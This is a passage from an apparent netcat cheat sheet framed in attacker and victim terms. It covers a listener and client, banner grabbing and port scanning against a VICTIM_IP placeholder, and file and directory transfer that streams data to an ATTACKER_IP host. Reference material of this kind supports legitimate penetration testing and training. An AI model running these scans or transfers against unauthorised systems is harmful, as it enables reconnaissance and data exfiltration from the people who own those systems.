 ### 2) Basic listener and client (chat test)
Listener (attacker):
```bash
nc -lvnp 4444
```
Client (target or your second terminal):
```bash
nc ATTACKER_IP 4444
```

### 3) Banner grabbing
HTTP:
```bash
printf 'HEAD / HTTP/1.1\r\nHost: target\r\n\r\n' | nc -nv VICTIM_IP 80
```
SMTP (interactive):
```bash
nc -nv VICTIM_IP 25
# then type: HELO example.com
```
If your nc supports -C (CRLF):
```bash
printf 'QUIT\r\n' | nc -nvC VICTIM_IP 25
```

### 4) Quick port scan (TCP/UDP)
TCP (top 1024):
```bash
nc -zv -n -w1 VICTIM_IP 1-1024
```
UDP example (DNS/123 NTP):
```bash
nc -zvu -n -w1 VICTIM_IP 53 123
```

### 5) File transfer
Single file: receiver listens, sender connects.

Receiver (save to out.bin):
```bash
nc -lvnp 9001 > out.bin
```
Sender:
```bash
nc -nv ATTACKER_IP 9001 < file.bin
```

Directory (preserve structure) using tar streaming:
Receiver:
```bash
nc -lvnp 9001 | tar -xvf -
```
Sender:
```bash
tar -cvf - ./mydir | nc -nv ATTACKER_IP 9001
```
